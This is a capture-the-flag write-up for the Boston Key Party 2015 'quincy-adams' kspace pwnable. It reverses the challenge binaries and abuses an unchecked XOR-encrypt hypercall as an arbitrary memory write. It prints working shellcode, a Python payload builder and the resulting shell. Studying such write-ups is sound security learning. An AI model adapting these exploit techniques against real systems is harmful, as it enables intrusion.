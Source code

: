 ```yaml
---
title: 'quincy-adams (kspace)'
author:
  - Brian Pak (Cai)
layout: post
categories:
  - Pwn
ctf: Boston Key Party CTF
year: 2015
---
```

This is a write-up for **quincy-adams** challenge, which is the second part of 3-chained pwnable challenge from [Boston Key Party CTF](https://ctftime.org/event/163) last weekend.  _You can also read from the [origial post](https://www.bpak.org/blog/2015/03/bkpctf-2015-quincy-adams-kspace-write-up/)_.

The binaries were packaged into a [tar ball](https://www.bpak.org/blog/wp-content/uploads/2015/03/zenhv-e941cb4585deafcf5a1b86050a3ebe7a.gz).

> The MBTA wrote a cool system. It's pretty bad though, sometimes the commands work, sometimes they don't...
> Exploit it. (kspace flag) 54.165.91.92 8899

The goal is to get "kspace" flag by exploiting the kernel space process.

Before we dive in, let's look at what is really going on.

We can think of each process (tz, kspace, uspace) as a separate privilege ring, as their name suggest.

  * **tz** (TrustZone?) &mdash; a "hypervisor" layer that implements the "hypercalls" (we haven't really reversed this too much).
  * **kspace** &mdash; a kernel layer that implements the "syscalls"; it maintains the files array and performs the actual tasks such as listing files, removing files, sleeping, and cat'ing (open & read).
  * **uspace** &mdash; a user layer that implements the interface that the user interacts with; it parses the commands and calls the appropriate "syscalls".

We would start from the **uspace** to get an arbitrary code execution on **uspace** process (as we did in previous write-up), then exploit the **kspace** to allow us to perform an attack against **tz**. Shared memory is arranged by **tz**, such that each layer will get its own memory "space" to pass the arguments to {sys, hyper}calls.

{% include figure.html src="https://www.bpak.org/blog/wp-content/uploads/2015/03/kspace_0.png" lightbox="quincy-adams" title="kspace syscall_handler (sub_401180)" %}

We can see that the syscall numbers, which is stored on **user_space[0]**, match with what we saw on **uspace**.

  * **do_ls** loops through the **file_array** list and prints out the name of the file.
  * **do_rm** finds the file in **file_array** with a given filename, and deletes it.
  * **do_create** adds a file into **file_array** up to 16 files. It looks for the spot/bin in the array by checking if the filename is null.
    This also initializes the file structure:
      * **open_file**, **read_file**, and **delete_file** are the function pointers.
        * Note that **syscall 95** and **99** are **sleep** and **exit**, respectively, which are not that interesting :p
        * **do_read** finds the file in **file_array** with a given filename, and if the file is "open", its content is copied to the output buffer (2nd argument).
        * **do_open** finds the file in **file_array** with a given filename, and changes its open state.
            * Only up to 9 files can be open simultaneously.
  {% include figure.html src="https://www.bpak.org/blog/wp-content/uploads/2015/03/kspace_1.png" lightbox="quincy-adams" title="file struct" %}

There is a bug with file creation and deletion, where the number of files in the list gets incremented when creating a file, but it does not get decremented when being deleted. Thus, we can only create up to 16 files and we can't create any more file even if we delete some. This didn't really affect the exploitation, however :)

If you followed carefully, you'd have noticed that we didn't go over the mysterious **syscall 92** (sub_402380).

This operation, unlike other ones, does not process the user input/arguments here. Instead, it forwards these arguments to **tz** via the "hypercall".

{% include figure.html src="https://www.bpak.org/blog/wp-content/uploads/2015/03/kspace_2.png" lightbox="quincy-adams" title="syscall 92 (kspace)" %}

To be more precise, the 3 arguments are stored starting at **kernel_space + 48**, and the hypercall takes 3 arguments of the **hypercall number (92)**, ****, and the **pointer to the arguments (kernel_space + 48)**.

So what does this hypercall do? Let's take a look at **tz** binary now.

{% include figure.html src="https://www.bpak.org/blog/wp-content/uploads/2015/03/kspace_3.png" lightbox="quincy-adams" title="hypercall handler (tz)" %}

As we can see above, **sub_401560** is the hypercall 92 handler.
It doesn't really do anything too fancy. The function performs a very simple "encryption" of data.


{% include figure.html src="https://www.bpak.org/blog/wp-content/uploads/2015/03/kspace_4.png" lightbox="quincy-adams" title="hypercall 92 handler" %}

It basically **xor**'s the bytes at **src** with the **key** "charlestown isn't that skeytchy." and stores the result to **dest**.

There is no restriction on the memory address for **dest** (other than checking if it's 0x100000000), which allows us to do <span style="text-decoration: underline;">arbitrary (xor) write</span>. By preparing the **src** buffer with already xor'd values, we can write any value we want to any memory location.

So, we can use this capability(?) to write useful data structure (such as a function pointer) to gain arbitrary code execution!

Just like **uspace**, **kspace** has NX disabled, so we can put our shellcode somewhere and jump to it.

&nbsp;

The attack plan is as follows:

  1. Create a file, with the content being the shellcode we want to run as kernel.
  2. Overwrite a function pointer (open_file) for the first file (which is the one that we just created in step 1) with the pointer to our shellcode.
      * The **file_array** is located at kernel_space + 0x3E800 == **0x90003e800**.
      * According to our **struc_files** struct, file_array **+ 0x8** points to the **files** array.
      * Thus, the first file structure will be located at **0x90003e808** and according to our **struc_file**, its content is located at the offset **+0x9**.
      * The first file's content == **shellcode** == 0x90003e800 + 0x8 + 0x9 == **0x90003e811**.
      * The first file's **open_file** function pointer is at **+0x118** from the file structure, which makes its location **0x90003e920**.
  3. Invoke a syscall #93, which opens a file.
      * At this point, we will tell it to open our file which has corrupted **open_file** function pointer &#8212; thus, calling into our shellcode.

<p class="filename">shell.asm</p>
{% highlight asm linenos %}
  [BITS 64]
  section .text
  global _start
  _start:

  ; sem_lock(sem_io, 0)
  mov edi, [0x6024a8]
  xor esi, esi
  mov eax, 0x401A90
  call rax

  ; syscall 92 (encrypt)
  push qword [rel data]       ; 0x90003e811 (xor'd)
  mov rax, [0x602498]         ; user_space
  mov qword [rax], 92         ; syscall #92
  mov qword [rax + 8], rsp    ; src (ptr to data)
  mov rcx, [rel dst]          ;
  mov qword [rax + 16], rcx   ; dst (0x90003e920)
  mov qword [rax + 24], 0x8   ; len

  ; sem_unlock(sem_io, 0)
  mov edi, [0x6024a8]
  xor esi, esi
  mov eax, 0x401AC0
  call rax

  ; sleep(1)
  mov rdi, 1
  mov rax, 0x400C30
  call rax

  ; sem_lock(sem_io, 0)
  mov edi, [0x6024a8]
  xor esi, esi
  mov eax, 0x401A90
  call rax

  ; syscall 93 (open)
  push qword [rel data]       ; now has 0x90003e811
  mov rax, [0x602498]         ; user_space
  mov qword [rax], 93         ; syscall #93
  lea rcx, [rax + 16]         ; (using user_space + 16 as scratch)
  mov qword [rax + 8], rcx    ; filename
  mov rcx, [rel lol]
  mov qword [rax + 16], rcx   ; filename &lt;- &("lol")

  ; sem_unlock(sem_io, 0)
  mov edi, [0x6024a8]
  xor esi, esi
  mov eax, 0x401AC0
  call rax

  data:
  dq 0x7473656572628072   ; 0x90003e811 ^ 0x7473656c72616863 (key)
  dst:
  dq 0x90003e920
  lol:
  db 'lol',0
{% endhighlight %}

<br />

Note that since we are using syscal #92 (encrypt) to perform an arbitrary write to memory, we have to "encrypt" the value we want to write beforehand such that it will get "decrypted" when it writes. The filename we used is "lol".

<p class="filename">pwn_kspace.py</p>
{% highlight python linenos %}
#!/usr/bin/python
import struct

def p(v):
    return struct.pack('<Q', v)

def u(v):
    return struct.unpack('<Q', v)[0]

f = open('payload', 'wb')

f.write('create lol\n'.ljust(0x400, '#'))
f.write(open('shell.bin').read().ljust(0x100, '\0'))

pop_pop_ret = 0x40110F
stage1 = open('stage1.bin').read()

f.write('create fmt\n'.ljust(0x400, '#'))

payload = '%280x' + p(pop_pop_ret)
f.write(payload.ljust(0x100, '\0'))

f.write(('cat fmt ' + stage1 + '\n').ljust(0x400, '#'))
{% endhighlight %}
<br />

Our exploit code looks fairly similar, but we now create a file called &#8216;lol' first with the shellcode. (The shellcode is the same as what we used for uspace.)

Then, we trigger the bug with our stage1 code.

<p class="filename">Pwn!</p>
{% highlight bash %}
$ nasm shell.asm -f bin -o shell.bin
$ nasm stage1.asm -f bin -o stage1.bin
$ python pwn_kspace.py
$ (cat ../kspace/payload; cat -) | sudo ./tz
bksh> bksh> bksh>
whoami
kspace
{% endhighlight %}
<br />

So far, we have triggered a **uspace** bug to call a syscall (92) in **kspace**, which does a hypercall (92) in **tz**, which allowed us to perform an arbitrary memory write in **kspace **memory.

Amusingly, we will be using the same primitive to get a shell under **tz** context in the next series.

Write-up by Cai (Brian Pak) [[https://www.bpak.org](http://www.bpak.org)]